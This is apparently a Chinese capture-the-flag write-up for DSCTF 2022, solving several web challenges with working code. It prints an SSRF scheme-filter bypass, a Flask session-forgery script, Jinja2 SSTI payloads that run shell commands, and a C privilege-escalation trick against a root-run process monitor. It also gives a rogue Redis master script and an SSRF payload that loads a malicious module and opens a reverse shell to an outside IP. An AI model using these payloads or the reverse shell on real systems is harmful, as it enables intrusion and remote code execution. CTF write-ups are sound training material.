




##  2022--DSCTF

##  pingpingping--初赛

admin/123456

首先进去之后F12看到过滤的东西

```undefined
url = str(request.form.get('url')).lower()
urlarr = urlparse(url)
for black in ['dict', 'file', 'gopher', 'ftp']:
    if black in urlarr['scheme']:
        return "NoNoNO!!!You can't use {} protocol".format(black)
    try:
        res = urlopen(url)
        return render_template("ping.html")
    except:
        return "Request failed!" 
```

绕过的话，问题在`urlparse`和`urlopen`

测试了一下，利用`+`，`空格`，`%0a`绕过



接下来看看内网应用，先读一下常见的app.py(/app/app.py)，cmdline(/proc/self/cmdline)(这个可以看到当前进程执行的东西)之类的

这个页面有个是key，同时也拿到源码

```Python
import os
from flask import Flask, request, session, render_template, url_for, redirect, render_template_string
from urllib.parse import urlparse
from urllib.request import urlopen
import sys
import re

app = Flask(__name__)
app.config.update(dict(SECRET_KEY='Guess_fl4gName'))


def waf(input):
    blacklist = ['{{', '}}', 'print', '?', '`', '.', '/', '-', '~', '+', '|', '0', '*', '1', '2', '3', '4', '5', '6',
                 '7', '8', '9', 'class', 'mro', 'init', 'builtins', 'request', 'config', 'subclasses', 'format', 'dict',
                 'get', 'attr', 'globals', 'read', 'os', 'popen', 'exec', 'join', 'session', 'update']
    for black in blacklist:
        if black in input:
            return True
    return False


@app.route('/', methods=['GET', 'POST'])
@app.route('/index', methods=['GET', 'POST'])
def index():
    return render_template("index.html")


@app.route('/login', methods=['POST'])
def login():
    if request.form.get('username'):
        username = request.form.get('username')
        if re.findall(r'\{\{.*\}\}', username, re.S) or re.findall(r'\{\%.*\%\}', username, re.S):
            return redirect(url_for('index'))
        session['username'] = username
        return redirect(url_for('ping'))
    else:
        return redirect(url_for('index'))


@app.route('/ping', methods=['GET', 'POST'])
def ping():
    if not session['username']:
        return redirect(url_for('/'))
    if waf(session['username']):
        return "You want to hack me???"
    pingstr = str(open('templates/ping.html', 'r').read()) % (session['username'])
    if request.form.get('url'):
        url = str(request.form.get('url')).lower()
    urlarr = urlparse(url)
    for b in ["dict", "file", "gopher", "ftp"]:
        if b in urlarr.scheme:
            return "NoNoNO!!!You can't use {} protocol".format(b)
    try:
        res = urlopen(url)
        return render_template_string(pingstr, result=res.read())
    except:
        return render_template_string(pingstr, result="Request failed!")
    else:
        return render_template_string(pingstr, result="")


if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=8080)
```

审计代码，看这个黑名单很明显的ssti，重点在`/ping`路由

这里相当于把session渲染到界面里面，猜测cmdline中的是key然后伪造

读一下ping.html


题目渲染返回Result，打SSTI，我们设置result为ssti的payload

这个位置有点卡住了，开始直接把payload放到session赋值打，出不来

原谅我太菜了，突然想起session一般都是一些加密的东西，所以应该是flask的session伪造，将session伪造加密后直接打进去。

flask的session加密和解密脚本：https://github.com/noraj/flask-session-cookie-manager/blob/master/flask_session_cookie_manager3.py


```python
import requests
import zlib
from itsdangerous import base64_decode
import ast
from flask.sessions import SecureCookieSessionInterface

secret_key = 'Guess_fl4gName'


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encode(secret_key, session_cookie_structure):
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)


if __name__ == "__main__":
    ssti = ''''''
    payload = "{'username':'%s'}"%ssti
    res = session_cookie_encode(secret_key,payload)
    print(res)
    url = 'http://47.93.210.59:30002'
    r = requests.post(url = url+'/ping',data={'url':'http://1.117.171.248'},cookies={'session':res})
    print(r.content)
```

总结一下吧：

关于flask的考点：

>1.flask的pin码构成（2022*CTF出现过）
>
>2.经典的flask的SSTI打
>
>3.flask的session伪造
>
>https://blog.csdn.net/solitudi/article/details/107746711
>
>4.flask的unicode字符欺骗
>
>5.flask的条件竞争

https://blog.csdn.net/unexpectedthing/article/details/121197774?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165802798416780366582398%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=165802798416780366582398&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-121197774-null-null.185^v2^tag_show&utm_term=flask&spm=1018.2226.3001.4450

##  DSCTF--决赛

## safe_script_new






限制了`..` 不能相对路径⽬录穿越,同时限制了`file://`读取文件以及第⼀字符不能是`/` 

所以我们直接可以利用`filter`的过滤器来绕过

直接写一个马进去



`/flag`需要提权，suid提权不行，我们查看`ps aux`，发现有root权限运行，然后查看`/start.sh`

打开了`run.py`

```python
import subprocess
import re
import os
import time
def get_version(program):
    pid = program[1]
    try:
        exe_path = "/proc/" + pid + "/exe"
        program_path = subprocess.check_output(["su","-l",program[0],"-s",'/bin/bash','-c',f"readlink {exe_path}"], timeout=1).decode('utf-8').strip()
        print(program, "/proc/" + pid + "/exe", program_path)
        return subprocess.check_output([program_path, '--version'],timeout=1).decode('utf-8').strip()
    except Exception as e:
        print(e)
        return None
def get_process_list():
    try:
        process_list = []
        raw = subprocess.check_output(['ps', '-ef']).decode('utf-8').strip()
         # raw = open("a.txt", "r").read()
        lines = raw.split('\n')
        for line in lines:
            if line.startswith('UID'):
                continue
            data = re.findall(r'^([^\x20]+)\x20+([^\x20]+)\x20+([^\x20]+)\x20+([^\x20]+)\x20+([^\x20]+)\x20+([^\x20]+)\x20+([^\x20]+)\x20+(.+?)$', line)
            if len(data) > 0:
                data = data[0]
            else:
                continue
            print(data, data[-1])
            if "java" in data[-1]:
                process_list.append(data)
        return process_list
    except subprocess.CalledProcessError:
        return None
if __name__ == '__main__':
    while True:
        try:
            processes = get_process_list()
            for process in processes:
                get_version(process)
        except:
                pass
        time.sleep(20)


```

每隔20秒，`ps -ef`获取含有java的进程，有就加入到get_version的列表，在`get_version`函数中根据进程信息，先⽤readlink获取`proc`目录当前进程的`exe`文件，然后执⾏可执行文件 --version 

思路：我们可以创建一个恶意的可执行文件，然后命名为java，开始运行，这样run.py就可以检测到含有Java的进程，然后运行该恶意可执行文件

创建一个恶意的c文件

```c
#include <cstdlib>
#include <unistd.h>
int main(){
    system("cat /flag > /var/www/html/1.txt");
    sleep(300);
    return 0;
}
```

接着编译⽣成，-o执⾏程序名为java，然后赋予权限启动

```
gcc 1.c -o java
chmod 777 java
./java
```

##  newweb_new

题目说`http`不能连接

我们利用`nghttp http://39.106.156.96:48097/ -v`就可以连接

一个301跳转拿到真实的路径

访问路径405 改成post传参 沙箱逃逸 过滤单双引号 ⽤request

```
POST /sup3rh1dep4th/?
x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7
=__builtins__&x8=eval&x9=__import__("os").popen('cat%20/f*').read() HTTP/2
Host: 39.106.156.96:48097
Content-Length: 241
Content-Type: application/x-www-form-urlencoded
data=()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)
()|attr(request.args.x4)
(280)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)
(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)

```

还有个

```
url_for[request.args.a][request.args.b][request.args.c][request.args.d][request.args.e][request.args.f][request.args.g]()
a=__globals__&b=__builtins__&c=__import__&d=od&e=popen&f=cat%20/flag&g=read
```

##  ezjava

扫⽬录 /actuator/heapdump 找到redis密码

然后获取一个恶意的so文件打redis

https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

make,直接获取so文件

```python
import socket
import time

CRLF = "\r\n"
payload = open("exp.so", "rb").read()
exp_filename = "exp.so"
def RogueServer(lport):
    global CRLF
    global payload
    flag=True
    result=""
    sock=socket.socket()
    sock.bind(("0.0.0.0",lport))
    sock.listen(10)
    clientSock,address=sock.accept()
    while flag:
        data = clientSock.recv(1024)
        if "PING" in data:
            result="+PONG"+CRLF
            clientSock.send(result)
            flag=True
        elif "REPLCONF" in data:
            result="+OK"+CRLF
            clientSock.send(result)
            flag=True
        elif "PSYNC" in data or "SYNC" in data:
            result="+FULLRESYNC "+"a"*40+" 1"+CRLF
            result+="$"+str(len(payload))+CRLF
            result=result.encode()
            result+=payload
            result+=CRLF
            clientSock.send(result)
            flag=False
            print("done")
RogueServer(6378)
```

自己的vps上跑这个脚本，监听6378端口

payload

```python
import urllib.parse
url = '''http://127.0.0.1:6379/ HTTP/1.1\r\nHost: 127.0.0.1:6379\r\nAUTH
enw!BKT_hac*pev9nvj\r\nSLAVEOF 121.4.124.62 6378\r\nCONFIG SET dir /tmp\r\nconfig set
dbfilename exp.so\r\nMODULE LOAD /tmp/exp.so\r\nsystem.rev 121.4.124.62 9001\r\nSLAVEOF
NO ONE\r\nquit\r\nPOST / '''
print(urllib.parse.quote(url))
```

传payload进去

监听端口9001

